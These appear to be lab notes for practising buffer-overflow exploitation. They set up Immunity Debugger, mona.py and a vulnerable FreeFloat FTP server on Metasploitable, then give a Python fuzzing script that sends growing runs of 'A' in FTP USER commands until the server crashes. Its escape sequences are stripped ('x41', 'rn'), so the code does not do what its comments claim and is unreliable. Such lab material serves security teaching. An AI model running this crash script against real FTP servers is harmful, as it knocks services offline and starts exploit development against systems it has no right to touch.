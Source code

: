 Immunity Debugger
- Download https://debugger.immunityinc.com/ID_register.py
- Install on Metaspoitable

Mona.py
- Clone https://github.com/corelan/mona
- Drop mona.py to PyCommands folder in Immunity Debugger installation path

Vulnerable FTP Server
- Download http://www.exploit-db.com/wp-content/themes/exploit/applications/687ef6f72dcbbf5b2506e80a375377fa-freefloatftpserver.zip
- Unzip and run on Metasploitable

Simple Fuzzing Script

```
# Import the required modulees the script will leverage
# This lets us use the functions in the modules instead of writing the code from scratch
import sys, socket
from time import sleep
 
# set first argument given at CLI to 'target' variable
target = sys.argv[1]
# create string of 50 A's 'x41'
buff = 'x41'*50
 
# loop through sending in a buffer with an increasing length by 50 A's
while True:
  # The "try - except" catches the programs error and takes our defined action
  try:
    # Make a connection to target system on TCP/21
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(2)
    s.connect((target,21))
    s.recv(1024)
 
    print "Sending buffer with length: "+str(len(buff))
    # Send in string 'USER' + the string 'buff'
    s.send("USER "+buff+"rn")
    s.close()
    sleep(1)
    # Increase the buff string by 50 A's and then the loop continues
    buff = buff + 'x41'*50
 
  except: # If we fail to connect to the server, we assume its crashed and print the statement below
    print "[+] Crash occured with buffer length: "+str(len(buff)-50)
    sys.exit()
 ```

 